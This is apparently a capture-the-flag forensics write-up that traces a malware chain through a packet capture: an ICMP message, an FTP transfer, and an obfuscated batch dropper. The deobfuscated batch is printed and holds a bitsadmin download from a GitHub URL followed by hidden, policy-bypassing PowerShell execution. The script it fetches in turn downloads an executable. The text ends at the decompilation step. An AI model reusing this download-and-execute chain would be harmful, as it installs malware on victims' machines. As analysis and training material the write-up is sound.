

## Description

///caption
///

## Solution

Going through ICMP protocol, we can see some message there: “Boss, i have hacked into someone computer. Let me try the new malware we developed here!” 

 
Going through the FTP stream we can see the attacker log in using FTP and and perform file transferring. 

 
Looking the next stream would be the file that is transferred, which looks like an obfuscated batch file. We can search for [batch deobfusctator](https://github.com/DissectMalware/batch_deobfuscator) online to get the content of the file 

```batch {title="OliRod.bat"}
bitsadmin.exe /transfer "78fb98208c7f6ee6c0ed7bf761e614eb" https://raw.githubusercontent.com/6E3372/OliRod/main/Photo/Olivia.ps1 \Olivia.ps1

powershell.exe -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND "\Olivia.ps1" 
```
We can navigate to the GitHub link to download the PowerShell file named `Olivia.ps1`. 

This file is also kind of obfuscated which makes it hard for us to understand the function. We need to read and understand the code within the function in order to know what is going on in this file. 
 
Instead of understanding line by line and decoding it, we can just run the code using [tio.run](https://tio.run/#powershell).  We can deduce that this PowerShell script is trying to download `OliviaRodrigo.exe` and rename it into random strings. 
 
After downloading the file, using `strings` command we can guess that this might be a Python executable. Therefore, we can try to decompile it and get the source code. 
 
Decompile the exe by using [pyinstractor](https://github.com/extremecoders-re/pyinstxtractor) and [decompyle++](https://github.com/extremecoders-re/decompyle-builds/releases/tag/build-16-Aug-2024-dc6ca4a) so that we can get the source code back. 
